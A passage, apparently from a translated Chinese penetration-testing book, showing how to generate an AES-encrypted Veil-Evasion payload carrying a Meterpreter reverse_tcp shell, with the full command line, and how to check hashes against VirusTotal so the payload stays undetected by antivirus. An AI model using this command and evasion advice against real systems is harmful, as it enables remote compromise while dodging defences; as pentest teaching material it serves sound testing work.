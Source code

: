 最终屏幕显示生成的有效载荷信息，如下面的屏幕截图所示：

![绕过 ID 和防病毒检测](img/3121OS_04_25.jpg)

利用程序也可以直接从命令行创建，使用以下选项：

```
 kali@linux:~./Veil-Evasion.py -p python/shellcode_inject/aes_encrypt  -o -output --msfpayload windows/meterpreter/reverse_tcp --msfoptions LHOST=192.168.43.134 LPORT=4444

```

一旦利用程序被创建，测试人员应该对负载进行 VirusTotal 验证，以确保在放置在目标系统上时不会触发警报。如果负载样本直接提交给 VirusTotal，并且其行为标志着它是恶意软件，那么**防病毒**（AV）供应商可能会在一小时内发布针对提交的签名更新。这就是为什么用户明确被警告“不要将样本提交给任何在线扫描器！”

Veil-Evasion 允许测试人员对 VirusTotal 进行安全检查。当创建任何负载时，都会创建一个 SHA1 哈希并将其添加到`hashes.txt`中，该文件位于`~/veil-output`目录中。测试人员可以调用`checkvt`脚本将哈希提交给 VirusTotal，VirusTotal 将检查 SHA1 哈希值与其恶意软件数据库进行匹配。如果 Veil-Evasion 负载触发了匹配，那么测试人员就知道它可能会被目标系统检测到。如果没有触发匹配，那么利用程序负载将绕过防病毒软件。使用`checkvt`命令进行成功查找（不被 AV 检测到）如下所示：

![绕过 ID 和防病毒检测](img/3121OS_04_26.jpg)
